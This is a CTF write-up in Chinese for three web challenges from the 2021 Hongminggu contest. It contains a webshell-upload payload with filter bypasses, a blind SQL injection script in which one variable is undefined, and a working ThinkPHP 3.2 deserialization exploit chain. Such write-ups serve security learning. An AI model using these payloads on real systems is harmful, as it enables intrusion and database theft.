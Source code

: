 ```yaml
---
title: 红明谷杯数据安全大赛web wp
date: 2021-04-07 20:17:33
updated: 2021-04-07 20:17:33
categories: Write up
---
```


红明谷杯数据安全大赛web write up<!--more-->

# write_shell

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

通过一下payload可以知道路径

```
?action=pwd
```

之后就是 `file_put_contents`利用了

虽然过滤了空格，我们可以通过`%09`进行绕过。

```
?action=upload&data=<?=`ls%09/`?>
```

可看到`flag`文件为`php`文件`!whatyouwantggggggg401.php`

由于过滤了`php`字符，可通过`*`通配符绕过

```
?action=upload&data=<?=`cat%09/!whatyouwantggggggg401*`?>
```



# happysql



![](http://img.npfs06.top/20210407113355.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

在登陆的位置存在sql注入，fuzz后发现，过滤了`if,空格、or,and,information,单引号,benchmark,sleep，=，li k,+,-`等关键字，闭合方式为双引号。



or和and 等逻辑运算符直接用`||`代替即可。等于号可以使用`regexp`或者`strcmp`,而字符串分割可以使用`locate`代替。`||`只要一边执行成功就能跳转到`home.php`

输入：

```
username: npfs"||0#
password: 123456
```

![](https://img.npfs06.top/20210407114630.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

输入：

```
username: whoami"||1#
password: 123456
```

成功登入，跳转到home.php

![](https://img.npfs06.top/20210407123509.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

盲注，因为regexp没有被过滤，考虑正则注入，但是由于又过滤了`-`等flag中可能出现的字符，所有这里我们使用hex绕过

```python
import requests
import string
import binascii

s = string.digits + string.ascii_uppercase + string.ascii_lowercase + "-" + "}"
url = ""
flag = "flag{"

while True:
    for i in s:
        r = flag + i
        data = {
            "username" : 'admin"||(select/**/*/**/from/**/f1ag)/**/regexp/**/0x' + binascii.hexlify(("^" + result + i).encode()).decode() + '#',
            "password" : ""
        }
        res = requests.post(url, data=data)
        if "home.php" in res.text:
            flag += i
            print(flag)
            break
```

```mysql
//regexp

查找name字段中以'st'为开头的所有数据：
mysql> SELECT name FROM person_tbl WHERE name REGEXP '^st';
```



## east_tp

可以通过关键词搜索到ThinkPHP v3.2.* 版本的一个反序列化漏洞，基本上照着做就可以了https://mp.weixin.qq.com/s/S3Un1EM-cftFXr8hxG4qfA



EXP：

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启才能读取文件
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root"
        );
    }
}

namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;

        public function __construct(){
            $this->img = new Memcache();
        }
    }
}

namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;

        public function __construct(){
            $this->handle = new Model();
        }
    }
}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;

        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(schema_name),31) from information_schema.SCHEMATA)),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select right(group_concat(schema_name),31) from information_schema.SCHEMATA)),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(table_name),31) from information_schema.tables where table_schema='test'),0x7e),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(column_name),31) from information_schema.columns where table_schema='test'),0x7e),1)#",
                 //"table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(flag),31) from test.flag),0x7e),1)#",
                "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select right(group_concat(flag),31) from test.flag),0x7e),1)#",
                "where" => "1=1"
            );
        }
    }
}

namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));

}
```



![](https://img.npfs06.top/20210416231548.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)